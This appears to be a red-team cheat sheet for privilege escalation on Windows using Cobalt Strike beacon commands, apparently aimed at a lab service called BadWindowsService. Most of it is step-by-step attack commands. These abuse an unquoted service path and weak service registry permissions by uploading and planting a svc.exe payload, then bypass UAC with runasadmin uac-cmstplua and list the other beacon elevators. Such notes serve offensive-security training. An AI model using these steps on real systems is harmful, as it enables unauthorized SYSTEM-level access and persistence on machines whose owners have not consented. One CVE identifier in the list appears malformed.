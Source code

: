 

#### Unquoted Service Path

Enumerate available services
```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

Query service and view permissions on file path
```powershell
sc_qc BadWindowsService

cacls "C:\Program Files\Bad Windows Service"
```

Upload DNS payload and rename to abuse unquoted service path
```powershell
cd C:\Program Files\Bad Windows Service

upload C:\Payloads\dns_x64.svc.exe

mv dns_x64.svc.exe Service.exe
```

Restart service
```powershell
sc_stop BadWindowsService
sc_start BadWindowsService
```

Checkin on new beacon
```powershell
checkin
```

Remove payload
```powershell
rm Service.exe
```

#### Service Registry Permissions

Enumerate permissions of the service's regsitry key and view current bin path
```powershell
powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl

sc_qc BadWindowsService
```

Stop the service
```powershell
sc_stop BadWindowsService
```

Upload payload to writeable directory
```powershell
cd C:\Windows\Tasks

upload C:\Payloads\dns_x64.svc.exe
```

Change bin path to the payload
```powershell
sc_config BadWindowsService C:\Windows\Tasks\dns_x64.svc.exe 0 2
```

Start the service
```powershell
sc_start BadWindowsService
```

Restore the bin path and remove payload
```powershell
sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2

rm  C:\Windows\Tasks\dns_x64.svc.exe
```

#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 2383
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```